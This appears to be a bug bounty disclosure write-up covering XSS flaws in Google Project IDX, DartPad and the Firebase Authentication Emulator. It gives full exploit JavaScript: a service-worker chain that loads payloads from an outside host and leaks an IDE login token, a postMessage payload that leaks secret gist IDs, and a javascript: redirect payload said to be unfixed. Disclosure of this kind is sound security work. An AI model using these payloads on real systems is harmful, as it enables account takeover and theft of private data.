 ```yaml
---
title: idx.google.com XSS (Awarded $3133.70)
---
```


This is a hosted development environment called Project IDX based on [Visual Studio Code](https://github.com/microsoft/vscode) like [Google Cloud Shell](https://cloud.google.com/shell/)

Feature being abused: <https://developers.google.com/idx/guides/debug-in-idx#chrome-devtools>  
Its based of the Chii open source project: <https://github.com/liriliri/chii/commit/0002b761737f450fe070699b6fec284d6e1e91e9>

- Create a project as simple html.
- Once loaded, Take the `ID` from an iframe in the format `https://9000-monospace-<ID>.cloudworkstations.dev` (In a real attack this could be leaked from the network)
- Run the following from any website replacing `ID` with your own ID.

```js
// Vulnerable debugger proxy (Runs any js code you want, Fetch as the victims server)
let target = 'https://8282-monospace-<ID>.cloudworkstations.dev/proxy?url=';

// Link to our service worker
let proxy = new URL('https://terjanq.me/xss.php');
proxy.searchParams.set('ct', 'application/javascript');
proxyPayload = `
self.addEventListener("fetch", (event) => {
 let url = event.request.url;
 // Leak token from redirect since its a httponly cookie
  // Authentication is done by:
 // Redirecting the user to https://ssh.cloud.google.com/devshell/gateway/oauth?state=<value> (Cross-site, COOP, embed protection)
 // https://<PORT>-idx-<ID>.cloudworkstations.dev/_workstation/login?redirect=<value> this sets a cookie then redirects back.
 if (url.includes("_workstation/login")) {
  console.info('🎉 Leaked token: '+url);
 }
});
`;
proxy.searchParams.set('html', proxyPayload);

// Link to force a re-authenticate
let reauth = new URL('https://terjanq.me/xss.php');
reauth.searchParams.set('h[Clear-Site-Data]', '"cookies"');
reauthPayload = `
setTimeout(() => { location.href=location.origin }, 3000);
`;
reauth.searchParams.set('js', reauthPayload);

// Link to create service worker
let setup = new URL('https://terjanq.me/xss.php');
setupPayload = `
navigator.serviceWorker.register("${target + encodeURIComponent(proxy.href)}");
setTimeout(() => { location.href="${target + encodeURIComponent(reauth.href)}" }, 3000);
`;
setup.searchParams.set('js', setupPayload);

// Do the stuff
location = target + encodeURIComponent(setup.href);
```

- In the console you should see a message that says "leaked token" of the format `https://8282-monospace-<ID>.cloudworkstations.dev/_workstation/login?redirect=<secret>` in a new browser go to that URL and you will be logged in to the debugger.
- You will have got a `WorkstaionJwt` from that by changing the domain of this cookie for example to `80-monospace-<ID>.cloudworkstations.dev` you can login to the IDE!

# Pointless XSS section :)

## DartPad XSS (dartpad.dev)

This is an editor for Dart code.

By abusing the XSS in `frame.html` it allowed putting interactive content on other people's websites
that use the code embed via a popup window reference which is a spoofing risk especially if providing API keys on that site is expected behavior also It's leaking injected snippets or secret gists of that site.

```js
// Please click, Opening a victim popup needs user activation
onclick = () => {
  let frame = document.createElement('iframe');
  frame.src = 'https://dartpad.dev/frame.html';
  document.body.appendChild(frame);

  payload = `
 // XSS running on the dartpad.dev origin (instead of null)
 let win = open('https://terjanq.me/xss.php?html=%3Ciframe%20src=%22https://dartpad.dev/?id=5c0e154dd50af4a9ac856908061291bc?theme=light%22%3E%3C/iframe%3E');
 setTimeout(() => {
  // Leak the secret gist ID of a cross-site embed
  alert('Leaked: ' + win[0].location.search);
 }, 2000);
`;

  frame.onload = () => {
    frame.contentWindow.postMessage(
      {
        command: 'execute',
        js: payload
      },
      '*'
    );
  };
};
```

This was fixed in <https://github.com/dart-lang/dart-pad/pull/2943> by enforcing the`null` origin sandbox.

## Firebase Authentication Emulator XSS (localhost) Not fixed

This is a local test environment for Firebase.

<https://github.com/firebase/firebase-tools/blob/80964d04ee34b204116be6139e76ad96f427a06d/src/emulator/auth/widget_ui.ts#L65>

Navigates to a `javascript:` path provided in the `redirectUrl` URL parameter for example, `/emulator/auth/handler?apiKey=1&providerId=1&redirectUrl=javascript:alert(origin)&appName=1`
Other emulator XSS, <https://github.com/firebase/firebase-tools/blob/96fe35f4a38736f16a183c76a53112a7b86b2487/src/emulator/functionsEmulator.ts#L1554-L1556>
